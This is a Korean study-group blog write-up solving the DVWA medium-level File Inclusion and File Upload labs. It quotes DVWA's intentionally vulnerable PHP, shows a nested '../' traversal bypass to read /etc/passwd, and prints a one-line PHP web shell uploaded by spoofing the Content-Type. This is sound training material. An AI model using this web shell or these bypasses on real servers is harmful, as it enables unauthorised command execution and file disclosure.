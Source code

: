 ```yaml
---
layout: default
title: Day37
nav_order: 2

parent: Hacking Project - W6
grand_parent: P4C
---
```


##### 해당 게시글은 빡공팟 4기(with TeamH4C)와 관련되어 있습니다
-----
중간 난이도로 설정한 뒤 시작!

# > DVWA: File Inclusion

## 삽질

```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\\" ), "", $file );

?> 
```
low 레벨을 풀 때는 몰랐는데 사실 상위 경로로 이동해서 유의미한 파일을 찾는 문제였다 하하;;

<br>

## Write up

`/etc/passwd` 입력을 하면 바로 출력이 된다.

![image-20220524161023545](../img/image-20220524161023545.png)

<br>

`../`을 공백으로 치환하는 것을 우회하기 위해서 .../../를 이용했다. `.'../'./` 작은 따옴표 부분이 치환되면 `../`가 완성되는 원리이다. 

![image-20220524161306423](../img/image-20220524161306423.png)



<br><br><br>

-----

# > DVWA: File Upload

## 삽질

```php
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // File information
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_type = $_FILES[ 'uploaded' ][ 'type' ];
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];

    // Is it an image?
    if( ( $uploaded_type == "image/jpeg" || $uploaded_type == "image/png" ) &&
        ( $uploaded_size < 100000 ) ) {

        // Can we move the file to the upload folder?
        if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
            // No
            echo '<pre>Your image was not uploaded.</pre>';
        }
        else {
            // Yes!
            echo "<pre>{$target_path} succesfully uploaded!</pre>";
        }
    }
    else {
        // Invalid file
        echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
    }
}
?> 
```

파일의 확장자 검사를 진행한다. jpeg와 png가 아니면 업로드를 제한하려는 듯하다.

<br>

## Write up

 `php` 확장자를 업로드 하면서 타입을 변경해주면 업로드 될 것이다.

먼저 업로드하려는  medium.php 이다.

```php
<?php
$cmd = $_GET['c'];
system($cmd);
?>
```

V3 안끄고 계속 만들다가 계속 삭제되고 있었다. 그것도 모르고 재부팅만 4번하는 해프닝이 ^^;;

위 코드의 확장자는 php이고, 해당 파일을 업로드 하였을 때 패킷을 잡은 모습이다.

![image-20220524224754626](../img/image-20220524224754626.png)

코드에서 감지하는 부분으로 예상되니 이 부분을 "image/jpeg" 로 수정하고 전달하자.

![image-20220524225114928](../img/image-20220524225114928.png)

성공적으로 업로드 되는 것을 확인할 수 있다.
